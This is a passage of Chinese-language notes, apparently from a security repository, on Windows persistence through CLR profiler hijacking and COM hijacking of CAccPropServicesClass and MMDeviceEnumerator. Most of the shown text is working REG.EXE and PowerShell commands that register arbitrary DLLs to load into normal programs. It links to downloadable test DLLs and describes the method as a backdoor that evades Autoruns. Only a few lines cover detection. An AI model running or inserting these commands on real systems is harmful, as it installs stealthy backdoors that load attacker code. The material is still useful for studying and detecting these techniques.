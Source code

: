 REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\\msg.dll" /F

REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F

https://raw.githubusercontent.com/3gstudent/test/master/msg.dll

https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/d7507416163ad39d7306e6cb6f6e059d.png)

检测方法：

检查环境变量COR_ENABLE_PROFILING和COR_PROFILER

检查注册表键值HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\

补充:

powershell更改环境变量

New-ItemProperty "HKCU:\\Environment\\" COR_ENABLE_PROFILING -value "1"
-propertyType string \| Out-Null

New-ItemProperty "HKCU:\\Environment\\" COR_PROFILER -value
"{11111111-1111-1111-1111-111111111111}" -propertyType string \| Out-Null

注册表环境变量POC:

REG ADD
"HKCU\\Software\\Classes\\CLSID\\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\\InprocServer32"
/ve /t REG_EXPAND_SZ /d "C:\\test\\calc.dll" /f

REG ADD "HKCU\\Environment" /v "COR_PROFILER" /t REG_SZ /d
"{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f

REG ADD "HKCU\\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f

mmc gpedit.msc

**ATT&CK: Privilege Persistence-2).Windows利用注册表权限维-
CAccPropServicesClass以及MMDeviceEnumerator劫持**

同使用CLR劫持.Net程序的方法类似，也是通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例，所以，这就可以用作后门来使用，并且，该方法也能够绕过Autoruns对启动项的检测。

dll命名规则

32位:api-ms-win-downlevel-1x86-l1-1-0._dl

64位:api-ms-win-downlevel-1x64-l1-1-0._dl

{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}对应CAccPropServicesClass

{BCDE0395-E52F-467C-8E3D-C4579291692E}对应MMDeviceEnumerator

64位及32位:

C:\\Users\\user1\\AppData\\Roaming\\Microsoft\\Installer\\{BCDE0395-E52F-467C-8E3D-C4579291692E}

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/64ce89452e6d8d6054573be7c82044a3.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/bdd0f2c2e5c6d1d4b05af2f4a2044a1d.png)
